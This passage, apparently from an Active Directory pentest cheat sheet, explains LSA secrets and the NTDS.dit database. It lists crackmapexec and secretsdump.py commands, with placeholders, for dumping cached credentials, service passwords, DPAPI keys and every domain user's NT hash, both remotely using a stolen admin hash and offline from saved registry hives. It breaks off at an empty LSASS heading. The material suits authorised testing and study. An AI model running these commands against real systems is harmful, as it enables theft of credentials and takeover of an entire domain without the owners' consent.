 **LSA secrets is special registry storage used to save sensitive data accessible only by the local SYSTEM user. On the disc, LSA secrets are saved in the hive SECURITY, encrypted with a key in the hive SYSTEM. In the LSA secrets you can find:**
- **cached domain credentials**
- **domain computer account**
- **service users' passwords**
- **Auto-logon password**
- **DPAPI master keys**

*Remote Dumping*:

```shell
# local admin credentials
crackmapexec smb <IP TARGET> -u <LOCAL ADMIN USERNAME> -H <LOCAL ADMIN HASH NT> --local-auth --lsa
# case where domain user is a local admin
crackmapexec smb <IP TARGET> -u <LOCAL ADMIN USERNAME> -H <LOCAL ADMIN HASH NT> --lsa
```

```shell
python3 secretsdump.py <DOMAIN NAME>/'<USERNAME>:<PASSWORD>'@<IP TARGET>
```

*Offline Dumping*:

```shell
python3 secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```

## NTDS.dit

**Requirements**:
- password or NT hash of a domain account member of Domain Admins group
- NTDS.dit file
- SYSTEM hive

**NTDS.dit file, located at the Domain Controller(s), represents the central database of the AD domain and contains all domain objects, including user credentials**.

*Remote Dumping*:

```shell
crackmapexec smb <IP DC> -d <DOMAIN> -u <DOMAIN ADMIN USERNAME> -H <DOMAIN ADMIN HASH NT> --ntds
```

```shell
python3 secretsdump.py <DOMAIN NAME>/'<DOMAIN ADMIN USERNAME>:<PASSWORD>'@<IP DC>
```

```shell
# extract NT hash only from NTDS.dit
python3 secretsdump.py <DOMAIN NAME>/'<DOMAIN ADMIN USERNAME>:<PASSWORD>'@<IP DC> -just-dc-ntlm
```

*Offline Dumping*:

```shell
python3 secretsdump.py -ntds '/path/to/NTDS.dit' -system '/path/to/system.save' LOCAL
```

## LSASS

